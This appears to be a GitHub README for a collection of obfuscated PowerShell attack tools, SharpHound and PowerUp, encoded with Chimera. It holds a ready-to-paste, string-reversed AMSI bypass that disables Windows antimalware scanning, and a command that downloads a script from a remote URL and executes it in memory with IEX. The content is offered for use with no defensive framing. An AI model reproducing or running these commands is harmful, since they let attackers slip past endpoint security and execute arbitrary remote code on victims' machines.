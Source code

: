 # A Collection of encoded powershell tools. All encoding done via Chimera

Tools added:
* SharpHound
* PowerUp

# How to

## Disable AMSI

``` pwsh
$String1 = @('s','l','i','t','U','i','*');$String2 = @('t','x','e','t','n','o','C','*');[array]::Reverse($String1);[array]::Reverse($String2);$Ass=[Ref].Assembly.GetTypes();Foreach($SingleAss in $Ass) {if($SingleAss.Name -Like (-join($String1))){$Wildcard=$SingleAss}};$WildcardFields=$Wildcard.GetFields('NonPublic, Static');Foreach($WildcardObjects in $WildcardFields) {if($WildcardObjects.Name -Like (-join($String2))){$ObjectContext=$WildcardObjects}};$NullValue=$ObjectContext.GetValue($null);[IntPtr]$ptr=$NullValue;[Int32[]]$SingleAssuf=@(0);[System.Runtime.InteropServices.Marshal]::Copy($SingleAssuf, 0, $ptr, 1);
```

## Run PowerShell script in memory

``` pwsh
(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/OverflowMyBuffers/whatever-script.ps1') | IEX
```
